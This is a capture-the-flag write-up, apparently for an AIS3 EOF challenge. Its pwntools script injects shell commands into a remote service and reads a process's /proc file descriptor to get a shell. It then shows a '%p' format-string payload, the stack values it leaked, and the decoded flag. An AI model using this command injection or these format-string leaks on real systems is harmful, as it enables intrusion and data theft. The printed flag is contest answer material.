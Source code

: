 ```python
#!/usr/bin/env python3
from pwn import *

o = remote('eof.ais3.org', 29091)

o.recvuntil('flag:')
o.sendline('ps aux --forest')
ps = o.recvuntil('lucky number:').decode('utf-8')
o.close()
ps = ps.split('\n')

pid = 0
for p in ps:
    if 'ps aux --forest' in p:
        pid = int(p[9:14])
        break

o = remote('eof.ais3.org', 29091)
o.recvuntil('flag:')
o.sendline('cat /proc/%d/fd/3' % (pid + 3))
lucky = int(o.recvline().decode('utf-8').strip())
o.recvuntil('lucky number:')
o.sendline(str(lucky))
o.interactive()
```

拿到shell之後是個簡單fmt漏洞，可以構造payload `%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p` 之類的來把stack上的buffer內容弄出來，附個那時的輸入輸出

```
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p

0x7ffede880a80,0x7f29558f88d0,0x1f,(nil),(nil),(nil),0x5566cb623260,0x696d34667b464f45,0x7431775f5234696c,0x3f78756e694c5f68,0xa7d3f3f,0x7f2955b1f4c0,0x7f2955906f5f,0x7f2955b25710,(nil),(nil),0x7ffede8b6298,0x1958ac0,0x7f29556be787,0x7ffede880ba0,0x7ffede8b6180,0x7f2900000002,(nil),0x7ffede880b00,0x3,0x7ffede880af0,(nil),0x7f2955b25738,(nil),0x1,0x7f2955b25710,(nil),0x6562b026,0x7f2955b25a98,0x7ffede880b98,0x7ffede880bd0,0x7f2955b25710,(nil),0x7f29559071ef,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x70252c70252c,0x7ffede880c70,0x264ee82d9e2a3000,0x5566c97e1820,0x7f295552cb97,0x1,0x7ffede880c78,0x100008000,0x5566c97e177a,(nil),0xc45d71bcb858051,0x5566c97e1670,0x7ffede880c70,(nil),(nil)
```
最後p64還原成string後得到flag: `EOF{f4mili4R_w1th_Linux???}`
